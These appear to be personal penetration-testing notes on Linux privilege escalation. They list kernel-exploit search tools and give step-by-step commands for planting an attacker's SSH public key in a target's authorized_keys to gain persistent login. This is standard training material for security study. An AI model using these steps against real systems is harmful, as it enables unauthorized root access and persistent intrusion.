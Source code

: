 
### LINUX Privilege escalation

Linux Privilege Escalation

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

https://www.youtube.com/watch?v=dk2wsyFiosg


### Kernel exploits

GET THE KERNAL VERSION AND SEARCH FOR PRIV ESC EXPLOITS 

```
site:exploit-db.com kernel version

perl /root/oscp/useful-tools/privesc/linux/Linux_Exploit_Suggester/Linux_Exploit_Suggester.pl -k 2.6

python linprivchecker.py extended
```

### unsing SSH keys for exploit

1. create a user on the local kali machine with the same username as on the linux machine

on target type "id"

on kali create user
```
useradd -u 2008 vulnix
```
2. create ssh keys on local attacker machine then push them to the target adding ssh keys to authorized keys

```

On kali or attacker
root@kali:~# ls /root/.ssh/
root@kali:~# ssh-keygen
root@kali:~# ls /root/.ssh/
id_rsa  id_rsa.pub
root@kali:~# cat /root/.ssh/id_rsa.pub

on target

$ mkdir .ssh
$ cd .ssh
$ echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC42NpxutFyfjQuOtZRiHzS/HRgCDQZZrrmizKrLmnhWy4RbzMqFc/URB22QtHkQLnX4libQkGKaSce2bEE2mF0DKB8oX/O9L+J7BYf5d7C6UQ1fLXN1Tg3Ls4QbKBrQGKPH14rdmzSe+ESKc5fE+cvBhB7f8Ub4HnZTDhLCSLJoyzNf85BkU/QjjWymxEXaoSDhg9vPgXEeQAAUCikkpcTwE5PVGG8z+m1fR0OZnzm45sfe2b+NI18owH60oGm8n8O6jOivsvlohXpNrcCm2Ago994zVA4V9ntPd6owXb77Wu1w8Zz1x1dK79QvIook18B6SIhnjJWyFgxHox2Gg8F root@kali > authorized_keys

on kali or attacker

root@kali:~# ssh user@*target*

```
